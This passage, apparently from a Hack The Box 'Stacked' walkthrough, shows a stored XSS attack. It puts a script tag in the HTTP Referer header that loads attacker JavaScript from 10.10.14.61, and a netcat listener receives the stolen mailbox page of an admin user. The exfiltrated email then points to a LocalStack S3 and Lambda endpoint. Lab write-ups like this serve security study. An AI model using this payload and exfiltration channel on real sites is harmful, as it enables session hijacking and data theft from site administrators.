 Start a `netcat` listener to write the `http://mail.stacked.htb` response body into a file:

```bash
$ nc -nlvp 8000 > index.html
listening on [any] 8000 ...
```

The XSS payload:

```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 140
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <script src="http://10.10.14.61/tgihf.js"></script>

fullname=tgihf&email=tgihf%40stacked.htb&tel=111111111111&subject=Great+job!&message=Keep+up+the+good+work,+developing+nice,+secure+systems!
```

```bash
$ nc -nlvp 8000 > index.html
listening on [any] 8000 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.140.39] 56160
```

The HTML source of `http://mail.stacked.htb` indicates it is the index page of an [AdminLTE 3](https://github.com/ColorlibHQ/AdminLTE) instance belonging to Adam Perkins. Adam's mailbox shows two email messages, one from Jeremy Taint (subject: "S3 Instance Started") and one from the attacker.

Jeremy's message is readable at `http://mail.stacked.htb/read-mail.php?id=1`. Modify and rerun the above exploit to retrieve this URL.

The message:

```html
...
<p>
	Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions. I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances. If you need anything let me know. Thanks.
</p>
...
```

So there is an "S3 instance" on `s3-testing.stacked.htb`. The message also mentions configuring IAM users, roles, and permissions on it, as well as it having a "serverless instance" configured. It seems this URL is hosting the LocalStack AWS API endpoint. Confirm this is so by using `aws-cli` to query the Lambda functions.
